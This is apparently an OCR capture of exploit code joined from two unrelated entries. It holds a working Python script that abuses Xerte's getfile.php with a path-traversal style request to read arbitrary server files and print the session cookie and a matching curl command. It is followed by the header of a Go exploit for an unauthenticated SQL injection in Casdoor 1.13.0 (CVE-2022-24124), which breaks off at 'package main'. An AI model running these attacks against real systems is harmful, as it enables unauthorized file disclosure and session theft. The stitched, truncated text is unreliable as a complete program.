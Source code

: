     # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to create a user-folder
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the created user-direcotry:
    user_direcotry = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    user_direcotry = re.findall('USER-FILES\/([0-9]+-[a-z0-9]+-[a-zA-Z0-9_]+)', user_direcotry.text)[0]

    # Grab file
    result = session.get(xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
    print(result.text)
    print("|-- Used Variables: --|")
    print("PHP Session ID: " + session.cookies.get_dict()['PHPSESSID'])
    print("user direcotry: " + user_direcotry)
    print("Curl example:")
    print('curl --cookie "PHPSESSID=' + session.cookies.get_dict()['PHPSESSID'] + '" ' + xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
// Exploit Title: Casdoor 1.13.0 - SQL Injection (Unauthenticated)
// Date: 2022-02-25
// Exploit Author: Mayank Deshmukh
// Vendor Homepage: https://casdoor.org/
// Software Link: https://github.com/casdoor/casdoor/releases/tag/v1.13.0
// Version: version < 1.13.1
// Security Advisory: https://github.com/advisories/GHSA-m358-g4rp-533r
// Tested on: Kali Linux
// CVE : CVE-2022-24124
// Github POC: https://github.com/ColdFusionX/CVE-2022-24124

// Exploit Usage : go run exploit.go -u http://127.0.0.1:8080

package main
